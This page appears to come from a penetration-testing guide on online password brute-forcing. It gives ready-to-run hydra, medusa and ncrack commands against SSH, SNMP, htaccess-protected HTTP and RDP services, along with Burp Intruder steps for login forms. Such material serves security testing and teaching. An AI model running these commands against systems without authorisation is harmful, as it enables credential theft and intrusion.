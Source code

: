 # Online password cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```



